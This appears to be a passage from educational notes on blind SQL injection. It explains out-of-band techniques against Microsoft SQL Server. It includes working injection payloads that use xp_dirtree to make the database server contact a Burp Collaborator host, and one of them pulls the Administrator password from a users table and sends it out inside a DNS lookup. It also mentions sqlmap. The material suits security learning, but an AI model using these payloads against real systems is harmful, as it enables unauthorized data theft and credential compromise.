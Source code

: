 '; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'-- 

this will cause the server to look for 0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net which can then be used similarly to all the previous blind SQLI techniques. 

Suppose there is an users table,so a query can be used like this to find the admin password


'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')-- 

Here 'declare' is used to specify a variable p of type character,which is then assigned a value from the given SQL query(which is the password from administrator). The server tries to look for the cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net which allows the attacker SQL query to be runned together with the DNS query.


Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work. 



NOTE: SQLI is a process which takes lots of creativity and knowledge regarding the syntax of the DBMS,it's also pretty much time consuming...so to autoamte these processes we have certains tools like 'sqlmap' which makes it easier for an attacker to get the data from a dbms,but to use it one must have a knowdlege of how SQLI works.






















